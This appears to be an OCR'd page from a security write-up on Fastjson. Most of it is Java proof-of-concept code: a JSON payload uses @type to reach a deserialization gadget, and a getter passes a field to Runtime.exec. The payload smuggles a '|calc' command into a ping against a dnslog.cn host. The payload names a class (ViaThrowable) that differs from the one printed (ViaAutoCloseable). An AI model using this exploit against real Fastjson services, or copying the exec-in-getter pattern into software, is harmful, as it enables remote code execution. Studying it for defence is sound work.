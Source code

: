 ```
```

exploit:

```
package org.heptagram.fastjson;
import com.alibaba.fastjson.JSONObject;

public class ThrowableMain {
    public static void main(String[] args) {
        String payload ="{\n" +
                "  \"@type\":\"java.lang.Exception\",\n" +
                "  \"@type\": \"org.heptagram.fastjson.ViaThrowable\",\n" +
                "  \"domain\": \"qbknro.dnslog.cn|calc\"\n" +
                "}";
        JSONObject.parseObject(payload);
    }
}
```

**JavaBeanDeserializer**

```
package org.heptagram.fastjson;

import java.io.IOException;
import java.io.Closeable;

public class ViaAutoCloseable  implements Closeable {
    private String domain;

    public ViaAutoCloseable() {
    }

    public ViaAutoCloseable(String domain) {
        this.domain = domain;
    }

    public String getDomain() {
        try {
            Runtime.getRuntime().exec(new String[]{"cmd", "/c", "ping " + domain});
        } catch (IOException e) {
            e.printStackTrace();
        }
        return domain;
    }

    public void setDomain(String domain) {
        this.domain = domain;
    }

    @Override
    public void close() throws IOException {

    }
}
```

